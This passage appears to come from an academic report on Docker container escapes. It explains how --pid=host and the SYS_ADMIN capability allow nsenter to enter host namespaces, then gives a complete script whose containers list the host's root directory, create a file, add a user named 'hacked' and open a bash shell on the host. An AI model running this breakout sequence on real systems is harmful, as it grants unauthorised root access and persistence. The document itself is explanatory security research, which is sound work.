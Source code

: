 \begin{itemize}
\item The \textbf{--pid=host} flag opens up host's pid namespace to attacker's container, in order to make it possible for it to see the processes running on host and choose one of them as target.
\item Nsenter requires \textbf{capability SYS\_ADMIN} as the least possible root privileges in order to work. That happens because any namespace changes require admin privileges and nsenter uses setns system call.
\end{itemize}

These are the common features used for the two use cases. The rest of the rules differ depending on the target process, so we will explain the rest in the corresponding examples.

\subsubsection{Breakout to host}
In this example, the attacker tries to execute some commands on host. These commands escalate from simple actions to privileged actions.
A debian image is used as a base for the docker containers and the attacker runs the following script to start the containers:

\begin{lstlisting}[style=shellscript, caption={run\_privileged\_actions.sh}]
#!/bin/sh

#Load profile to apparmor
sudo cp attacker_profile /etc/apparmor.d
sudo apparmor_parser -r -W /etc/apparmor.d/attacker_profile

#List contents of host's root directory
echo "====== ls / ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m ls /

#Touch a new file in host's root directory
echo "====== touch HelloFromTheOtherSide ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m touch HelloFromTheOtherSide

#Add a new user on host
echo "====== useradd hacked ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m /usr/sbin/useradd hacked

#Create a shell in host
echo "====== /bin/bash ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m /bin/bash 
\end{lstlisting}

